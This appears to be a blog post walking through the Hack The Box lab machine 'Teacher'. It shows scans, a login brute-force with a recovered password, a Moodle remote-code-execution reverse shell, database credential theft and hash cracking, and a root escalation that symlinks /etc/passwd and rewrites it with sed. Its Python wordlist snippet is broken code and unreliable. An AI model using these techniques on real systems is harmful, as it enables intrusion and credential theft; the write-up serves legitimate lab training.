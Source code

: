 ```yaml
---
layout: post
title: "Teacher: Hack The Box Walkthrough"
date: 2019-04-21 02:33:27 +0000
last_modified_at: 2019-04-21 02:33:57 +0000
category: Walkthrough
tags: ["Hack The Box", Teacher, retired]
comments: true
image:
  feature: teacher-htb-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/en/baby-sitter-children-educator-nanny-1073411/
---
```


This post documents the complete walkthrough of Teacher, a retired vulnerable [VM][1] created by [Gioo][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

Teacher is a retired vulnerable VM from Hack The Box.

### Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 10.10.10.153
...
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.25 ((Debian))
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Blackhat highschool
```

`nmap` finds `80/tcp` open. Let's go with that.

### Directory/File Enumeration

Based on my experience, it's always good to run some kind of fuzzing when faced with a lack of hints. Let's run `wfuzz` and SecList's `common.txt`, and see what we can find.

```
# wfuzz -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 20 --hc 404 http://10.10.10.153/FUZZ
********************************************************
* Wfuzz 2.3.1 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.153/FUZZ
Total requests: 4593

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000010:  C=403     11 L	      32 W	    291 Ch	  ".hta"
000011:  C=403     11 L	      32 W	    296 Ch	  ".htaccess"
000012:  C=403     11 L	      32 W	    296 Ch	  ".htpasswd"
001232:  C=301      9 L	      28 W	    310 Ch	  "css"
001735:  C=301      9 L	      28 W	    312 Ch	  "fonts"
002067:  C=301      9 L	      28 W	    313 Ch	  "images"
002094:  C=200    249 L	     747 W	   8028 Ch	  "index.html"
002218:  C=301      9 L	      28 W	    317 Ch	  "javascript"
002250:  C=301      9 L	      28 W	    309 Ch	  "js"
002497:  C=301      9 L	      28 W	    313 Ch	  "manual"
002627:  C=301      9 L	      28 W	    313 Ch	  "moodle"
002995:  C=403     11 L	      32 W	    297 Ch	  "phpmyadmin"
003597:  C=403     11 L	      32 W	    300 Ch	  "server-status"

Total time: 47.61103
Processed Requests: 4593
Filtered Requests: 4580
Requests/sec.: 96.46924
```

The site is running Moodle. [Moodle](https://github.com/moodle/moodle) is the world's open source learning platform. Moodle has its fair share of SQLi and RCE vulnerabilities but would require authenticated access.

<a class="image-popup">
![d31325ca.png](/assets/images/posts/teacher-htb-walkthrough/d31325ca.png)
</a>

While I was hunting around for a credential, something caught my eye at the Teacher's gallery page.

<a class="image-popup">
![7f34d280.png](/assets/images/posts/teacher-htb-walkthrough/7f34d280.png)
</a>

I got double F's! Something funky is going on here...

<a class="image-popup">
![0cf66884.png](/assets/images/posts/teacher-htb-walkthrough/0cf66884.png)
</a>

`5.png` is not an image. It's a text file.

<a class="image-popup">
![51d6ef0b.png](/assets/images/posts/teacher-htb-walkthrough/51d6ef0b.png)
</a>

Gotcha!

It's easy to generate a password list for brute-forcing the Moodle login form. You can do it with Python like so.

```python
import string

charset = string.ascii_letters + string.digits + string.punctuations

f = open('passwords.txt', 'w')
s = Th4C00lTheacha
t = ''

for c in charset:
  t += s + c + '\n'

f.write(t)
f.close()
```

Once the password list is generated, we can use `wfuzz` to brute-force it.

```
# wfuzz -w passwords.txt --hh 440 -t 20 -d "anchor=&username=giovanni&password=FUZZ" http://10.10.10.153/moodle/login/index.php
********************************************************
* Wfuzz 2.3.1 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.153/moodle/login/index.php
Total requests: 94

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000065:  C=303      6 L	      34 W	    454 Ch	  "Th4C00lTheacha#"

Total time: 17.72110
Processed Requests: 94
Filtered Requests: 93
Requests/sec.: 5.304409
```

The credential is (`giovanni:Th4C00lTheacha#`).

<a class="image-popup">
![ca2fc9fc.png](/assets/images/posts/teacher-htb-walkthrough/ca2fc9fc.png)
</a>

### Low-Privilege Shell

Following the instructions from this [post](https://blog.ripstech.com/2018/moodle-remote-code-execution/), I was able to execute a reverse shell back to me.

First, create a calculated question like so.

<a class="image-popup">
![4cd4b5a0.png](/assets/images/posts/teacher-htb-walkthrough/4cd4b5a0.png)
</a>

Create the formula like so.

<a class="image-popup">
![ef16f0d5.png](/assets/images/posts/teacher-htb-walkthrough/ef16f0d5.png)
</a>

Then execute remote commands on the host to run a reverse shell back to me using `nc`.

<a class="image-popup">
![213a07a8.png](/assets/images/posts/teacher-htb-walkthrough/213a07a8.png)
</a>

There you have it, a low-privilege shell.

<a class="image-popup">
![400efef7.png](/assets/images/posts/teacher-htb-walkthrough/400efef7.png)
</a>

Let's upgrade our shell with a pseudo-TTY using Python and then `stty raw -echo; fg; reset`.

### Privilege Escalation

I'm aware that Moodle connects to a database backend to store all the good stuff. The database settings are in `config.php` at the Moodle directory.

<a class="image-popup">
![30e91902.png](/assets/images/posts/teacher-htb-walkthrough/30e91902.png)
</a>

Let's connect to the database.

<a class="image-popup">
![b4d16fec.png](/assets/images/posts/teacher-htb-walkthrough/b4d16fec.png)
</a>

Cracking the MD5 hash is easy.

<a class="image-popup">
![1dc2b446.png](/assets/images/posts/teacher-htb-walkthrough/1dc2b446.png)
</a>

This is the password to `giovanni`'s account. `user.txt` is in the home directory.

<a class="image-popup">
![2a856c44.png](/assets/images/posts/teacher-htb-walkthrough/2a856c44.png)
</a>

During enumeration of `giovanni`'s account, I noticed the pressence of `work` directory and `/usr/bin/backup.sh` referred to it.

<a class="image-popup">
![dc87e44b.png](/assets/images/posts/teacher-htb-walkthrough/dc87e44b.png)
</a>

If I had to guess, I would say this is inside a `cron` job ran with `root` privileges since `giovanni` has no permissions to edit it.

But, look at the last line. It changes the permissions of any file to `rwxrwxrwx`. What if I put a symbolic link to `/etc/passwd` in it?

<a class="image-popup">
![39075b90.png](/assets/images/posts/teacher-htb-walkthrough/39075b90.png)
</a>

Boom! Anyone can edit `/etc/passwd`. Let's give ourselves `root` access.

```
$ sed -r '1h;x;2s/root:x/toor:to5bce5sr7eK6/' /etc/passwd > /tmp/passwd
$ cp /tmp/passwd /etc/passwd
```

<a class="image-popup">
![7a326bec.png](/assets/images/posts/teacher-htb-walkthrough/7a326bec.png)
</a>

With a `root` shell, getting `root.txt` is a breeze.

<a class="image-popup">
![f6295439.png](/assets/images/posts/teacher-htb-walkthrough/f6295439.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/165
[2]: https://www.hackthebox.eu/home/users/profile/623
[3]: https://www.hackthebox.eu/
